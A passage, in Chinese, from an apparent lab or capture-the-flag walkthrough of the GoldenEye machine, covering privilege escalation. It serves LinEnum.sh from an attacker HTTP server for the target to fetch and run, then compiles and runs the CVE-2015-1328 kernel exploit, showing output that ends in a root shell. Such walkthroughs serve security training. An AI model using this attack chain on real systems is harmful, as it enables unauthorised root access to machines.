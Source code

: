 0x05:提权                                                  

下载LinEnum.sh和linux-exploit-suggester.sh脚本到攻击机上，并在攻击机打开http.server服务，                                               

- 

```shell
┌──(root㉿kali)-[~/oscp/goldeneye]
└─# python3 -m http.server 9999
Serving HTTP on 0.0.0.0 port 9999 (http://0.0.0.0:9999/) ...
192.168.1.5 - - [06/Feb/2024 21:22:08] code 404, message File not found
192.168.1.5 - - [06/Feb/2024 21:22:08] "GET /LinEumn.s%7F%7F%7F%7F%7F%7F HTTP/1.1" 404 -
192.168.1.5 - - [06/Feb/2024 21:22:51] "GET /LinEnum.sh HTTP/1.1" 200 -

```

在Goldeneye机器上，通过wget下载sh文件，并执行，检查

![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/yt0TxdOI0SzY7CF1mBpm6Nn0JMPB1C7DbgmFwicN0vlCUBL1k98d3LsvL3GicaSr6vapr1icDSE1reWibJOwBk7ndg/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1)

0x06:                                                     

cve-2015-1328与本机内核完全符合，下载37292.c文件并修改文件中gcc为cc，如下：

![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/yt0TxdOI0SzY7CF1mBpm6Nn0JMPB1C7DI5QvKw7MwrzsibQ0HllhayJtX7J2pEqWbqwrOAH5DVPdMCia1ib5soIIQ/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1)

然后在GoldenEye机器上下载并编译执行，提权

- 

```shell
$ cc -o exp 37292.c
37292.c:94:1: warning: control may reach end of non-void function [-Wreturn-type]
}
^
37292.c:106:12: warning: implicit declaration of function 'unshare' is invalid in C99 [-Wimplicit-function-declaration]
        if(unshare(CLONE_NEWUSER) != 0)
           ^
37292.c:111:17: warning: implicit declaration of function 'clone' is invalid in C99 [-Wimplicit-function-declaration]
                clone(child_exec, child_stack + (1024*1024), clone_flags, NULL);
                ^
37292.c:117:13: warning: implicit declaration of function 'waitpid' is invalid in C99 [-Wimplicit-function-declaration]
            waitpid(pid, &status, 0);
            ^
37292.c:127:5: warning: implicit declaration of function 'wait' is invalid in C99 [-Wimplicit-function-declaration]
    wait(NULL);
    ^
5 warnings generated.
$ ./exp
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# init 0
# s^?^?^?
sh: 3: s: not found
# help
sh: 4: help: not found
# help
```